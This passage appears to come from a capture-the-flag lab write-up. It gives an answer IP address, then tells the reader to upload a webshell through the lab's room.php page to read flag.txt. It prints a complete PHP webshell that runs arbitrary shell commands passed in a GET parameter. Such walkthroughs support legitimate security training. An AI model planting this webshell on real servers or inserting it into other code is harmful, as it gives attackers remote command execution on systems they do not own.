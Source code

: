     ![](images/9.png)<br>
    **Answer:** 10.11.83.34

1. What is the contents of the flag.txt?<br>
    Upload the webshell to the server through `room.php`.<br>
    ```php
    <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
    </form>
    <pre>
    <?php
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd'] . ' 2>&1');
        }
    ?>
    </pre>
    </body>
    </html>
    ```